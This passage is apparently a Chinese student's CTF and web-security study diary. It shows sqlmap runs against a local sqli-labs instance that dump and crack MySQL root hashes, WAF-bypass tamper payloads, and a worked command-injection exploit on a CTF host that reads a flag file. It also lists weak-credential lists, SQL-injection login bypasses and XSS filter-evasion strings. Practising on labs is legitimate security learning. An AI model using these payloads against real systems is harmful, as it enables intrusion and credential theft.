| Trigger_priv           | enum('N','Y')                     |
| Update_priv            | enum('N','Y')                     |
| x509_issuer            | blob                              |
+------------------------+-----------------------------------+
```

这里爆值的语句，最好再加个`--dump`，以在命令提示符上面显示结果，也会把结果存储在本地数据库中。

```python2 sqlmap.py -u "http://127.0.0.1/Less-1/?id=3" -p "id" --cookie="PHPSESSID=8a0975bvbh5frja11j23bj70s1;token=N7SkRos%2BJF27ra6osmcnzw%3D%3D" --level=3 --technique E -D "mysql" -T "user" -C "user,password" --dump```

```do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]```


```
[09:28:54] [INFO] fetching entries of column(s) '`user`, password' for table 'user' in database 'mysql'
[09:28:56] [INFO] the SQL query used returns 3 entries
[09:28:58] [INFO] retrieved: root
[09:29:00] [INFO] retrieved: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[09:29:02] [INFO] retrieved: root
[09:29:04] [INFO] retrieved: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[09:29:06] [INFO] retrieved: root
[09:29:08] [INFO] retrieved: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[09:29:08] [INFO] analyzing table dump for possible password hashes
[09:29:08] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
do you want to crack them via a dictionary-based attack? [Y/n/q]
[09:30:22] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file 'E:\工具包\sqlmap\txt\wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[09:30:38] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[09:30:47] [INFO] starting dictionary-based cracking (mysql_passwd)
[09:30:47] [INFO] starting 8 processes
                                                           [09:31:42] [INFO] cracked password 'root' for hash '*81f5e21e35407d884a6cd4a731aebfb6af209e1b'
                                                           [09:31:49] [INFO] postprocessing table dump
Database: mysql
Table: user
[3 entries]
+--------+--------------------------------------------------+
| user   | password                                         |
+--------+--------------------------------------------------+
| root   | *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B (root) |
| root   | *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B (root) |
| root   | *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B (root) |
+--------+--------------------------------------------------+
```

```python2 sqlmap.py -u "http://127.0.0.1/Less-1/?id=3" -p "id" --cookie="PHPSESSID=8a0975bvbh5frja11j23bj70s1;token=N7SkRos%2BJF27ra6osmcnzw%3D%3D" --level=3 --technique E --dbs --tamper="space2morehash.py"```


python2 sqlmap.py -u "http://127.0.0.1/Less-1/?id=3" -p "id" --cookie="PHPSESSID=8a0975bvbh5frja11j23bj70s1;token=N7SkRos%2BJF27ra6osmcnzw%3D%3D" --level=3 --technique E --dbs --tamper="space2morecomment.py"


3)/**_**/AND/**_**/(SELECT/**_**/2*(IF((SELECT/**_**/*/**_**/FROM/**_**/(SELECT/**_**/CONCAT(0x71787a6271,(SELECT/**_**/(ELT(5610=5610,1))),0x716a627871,0x78))s),/**_**/8446744073709551610,/**_**/8446744073709551610)))--/**_**/hiIU
3)/**_**/AND/**_**/(SELECT/**_**/2*(IF((SELECT/**_**/*/**_**/FROM/**_**/(SELECT/**_**/CONCAT(0x71787a6271,(SELECT/**_**/(ELT(5610=5610,1))),0x716a627871,0x78))s),/**_**/8446744073709551610,/**_**/8446744073709551610)))--/**_**/hiIU
3)/**_**/AND/**_**/(SELECT/**_**/2*(IF((SELECT/**_**/*/**_**/FROM/**_**/(SELECT/**_**/CONCAT(0x71787a6271,(SELECT/**_**/(ELT(5610=5610,1))),0x716a627871,0x78))s),/**_**/8446744073709551610,/**_**/8446744073709551610)))/**_**/AND/**_**/(3521=3521

### WAF绕过的常见姿势

#### SQL注入

```SQL注入： waf绕过姿势： https://blog.csdn.net/wy_97/article/details/78085664
本地并保存此网页
```

#### 命令执行注入

``` WAF 绕过姿势
http://de-m0n.cn/index.php/archives/26/
本地保存此网页```
```

### 第二次模拟考试

时间： 2021年5月16日  14:30 -- 17:30

```
1.[极客大挑战 2019]EasySQL
2.[极客大挑战 2019]Havefun
3.[强网杯 2019]随便注
4.[ACTF2020 新生赛]Include
5.[极客大挑战 2019]Secret File
6.[极客大挑战 2019]LoveSQL
7.[ACTF2020 新生赛]Exec
8.[极客大挑战 2019]Upload
9.[ACTF2020 新生赛]Upload
10.[极客大挑战 2019]BabySQL
11.[极客大挑战 2019]BuyFlag
12.[CISCN2019 华北赛区 Day2 Web1]Hack World
13.[MRCTF2020]你传你🐎呢
14.[GXYCTF2019]BabyUpload
15.[GWCTF 2019]我有一个数据库
16.[网鼎杯 2020 朱雀组]phpweb
```


时间： 2021年5月16日  19:30 -- 21:30

```
1. 摩丝
2. 变异凯撒
3. 篱笆墙的影子
4. RSA
5. 丢失的MD5
6. rsarsa
7. Windows系统密码
8. RSA1
9. 凯撒？替换？呵呵!
10. 权限获得第一步
11. RSA3
12. RSA2
13. RSA
14. RSAROLL
15. [AFCTF2018]Morse
16. Dangerous RSA
17. [HDCTF2019]basic rsa
18. 小明入侵网站后获得了管理员的密文，由于太高兴了手一抖把密文删除了一部分，只剩下前10位a74be8e20b，小明根据社工知道管理员的密码习惯是key{4位的数字或字母} ，所以管理员的密码是
```

# 20210517

重新梳理知识点、操作细节、思路

以方便总结

下午：

### 北田soctf考试中一个题目：`http://47.105.128.249:21011/?ip=127.0.0.1;cat%20*ag*|sed%20-n%20%272p%27|base64;`



网页源代码：

```
<?php
highlight_file(__FILE__);

if(preg_match("/flag/i", $_GET["ip"]))
{
    die("no flag");
}

ob_start(); 
$flag = system("ping -c 3 $_GET[ip]");
ob_clean(); 

if(preg_match("/flag/i", $flag))
{
    die("no flag in flag");
}
else{
    print($flag);
}

?> 
```

经过检测发现每次回显只回显一行左右的少数字体，waf匹配回显内容有`flag`字样的回显内容：

所以将内容重定向到base64接受，内容如下：

```
http://47.105.128.249:21011/?ip=127.0.0.1;find / -name "*fla*"|base64;

>>> a="L3Zhci93d3cvaHRtbC9mbGFnLnBocAo= "
>>> base64.b64decode(a)
b'/var/www/html/flag.php\n'


http://47.105.128.249:21011/?ip=127.0.0.1;cat *ag*|sed -n '1p'|base64;

>>> base64.b64decode(a)
b'<?php\n'

http://47.105.128.249:21011/?ip=127.0.0.1;cat *ag*|sed -n '2p'|base64;

>>> a="JGZsYWcgPSAiZmxhZ3tmMWU0OThlYjAyYzMxMWE4Njg4ZTRkMTI2NDc1OGE0ZH0iOwo= "
>>> base64.b64decode(a)
b'$flag = "flag{f1e498eb02c311a8688e4d1264758a4d}";\n'
```

### 北田soctf考试中一个题目：`http://47.105.128.249:36001`


这个UI我好像在哪里见过

首页有html注释

```
<!-- 题目不难，不需要扫描，但是需要仔细。 -->
```




注册`admin5/admin5`的账户（发现admin被注册了）




# 20210518

弱口令账户：

`admin, root, Root, Admin, administrator, Administrator`

弱口令密码：

`admin, root, 123456, Admin, admin123, admin123456, admin@123`

登录框：

万能密码，暴力破解，md5特殊值万能密码，SQli，Xss，查看隐藏字段

权限绕过：

未授权访问，越权,sqli
cookie中user=0改为user=1; page=guest->page=admin,root
{user: 0}  -> {user:1}

sqli:

`-1' or 'admin`

`-1' union select 'admin','xxxxx{传入密码的md5值}xxx';%23`

[xss挑战平台练习](https://www.cnblogs.com/bmjoker/p/9446472.html)

[附带的练习靶场](http://test.ctf8.com/level1.php?name=test)



XSS: 
HTML标签 不区分大小写（包括<ScrIpt>可执行的）

JS语句： 严格区分大小写（不能这么写： AlErT(123)）

`script`(区分大小写)：大小写绕过

替换为空`script`(不区分大小写)： `scRscriptipt`


<input type=text onmouseover='alert(1)'>


